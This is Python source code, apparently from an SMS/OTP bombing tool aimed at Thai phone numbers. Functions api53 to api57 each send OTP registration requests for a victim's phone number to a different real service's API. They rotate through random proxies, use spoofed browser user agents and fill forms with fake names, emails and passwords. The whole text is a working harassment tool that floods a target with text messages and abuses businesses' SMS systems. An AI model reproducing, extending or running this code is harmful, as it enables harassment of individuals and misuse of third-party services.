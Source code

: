 def api53(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://davyjones.mrwed.cloud/customer/register/get-otp",headers={"accept": "application/json, text/plain, */*","content-type": "application/json","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36"},json={"countryCode":"TH","phoneNumber":phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api54(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.put(f"https://www.xn--24-3qi4duc3a1a7o.net/api/common/otp/request/{phone}",headers={"content-type": "application/json;charset=UTF-8","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36"},json={"method":"register"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")

def api55(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://m-api.hhh-st1.xyz/api/otp/register",headers={"content-type": "application/json","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36"},json={"applicant":phone,"serviceName":"hihuay.com"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api56(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://services.eventpass.co/eventpass-accounts/otp/send",headers={"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","content-type": "application/json"},json={"send_to":phone,"send_otp_type":"mobile","otp_type":"register"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api57(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.sabuyebuy.com/wp-json/api/v3/send-otp",headers={"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; SM-J700F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36","accept": "application/json, text/plain, */*","content-type": "application/json"},json={"first_name":"Sodmms","last_name":"Somxns","address":"","birthday":"","phone":phone,"commissions_id":"","email_address":"Sujsks929@krkds.sksks","password":"as257400","agreements":"true","uuid":"c31fa698-c78c-4c33-8b78-bf1692df88c4","affiliate_id":0},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	